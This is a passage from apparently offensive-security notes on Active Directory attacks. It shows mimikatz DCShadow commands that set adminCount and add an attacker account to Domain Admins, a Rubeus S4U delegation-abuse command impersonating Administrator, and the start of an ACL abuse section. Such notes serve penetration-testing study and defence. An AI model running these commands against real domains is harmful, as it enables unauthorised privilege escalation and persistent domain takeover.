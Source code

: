 - **Impact:** Persistence via stealthy AD changes.
    
- **Example Commands:**

```bash
mimikatz # lsadump::dcshadow /object:CN=User1,CN=Users,DC=domain,DC=local /attribute:adminCount /value:1

#Or

mimikatz # lsadump::dcshadow /object:CN=attacker,CN=Users,DC=domain,DC=local /attribute:memberOf /value:"CN=Domain Admins,CN=Users,DC=domain,DC=local"
```

- **Transport Stack:** AD replication (MSRPC).

---

### Delegation Abuse (Unconstrained, Constrained, RBCD)

- Delegation = allowing a service (like IIS or SQL) to impersonate users when talking to another service.
    
- Windows supports three forms:
    
    - **Unconstrained Delegation** → service can impersonate _anyone_ to _any service_.
        
    - **Constrained Delegation** → service can impersonate certain users, but only to _specific services_.
        
    - **Resource-Based Constrained Delegation (RBCD)** → newer feature where the _target resource_ (not admins) controls who can impersonate to it.

**Flow:**

1. Attacker controls account/computer allowed to delegate.
    
2. Abuse Kerberos S4U2Self / S4U2Proxy to impersonate victim.
    
3. Obtain service tickets to high-value resources.

- **Requires:** Control of delegatable object, or write on computer (for RBCD).
    
- **Impact:** Lateral move to DA paths.
    
- **Example Commands:**

```bash
Rubeus s4u /user:svc_deleg /impersonateuser:Administrator /rc4:<hash>
```

- **Transport Stack:** Kerberos.

---

### ACL Abuse

- In AD, **every object (user, group, computer, GPO)** has an **ACL (Access Control List)**.
    
- If attacker has write access to an object’s ACL, they can silently escalate.
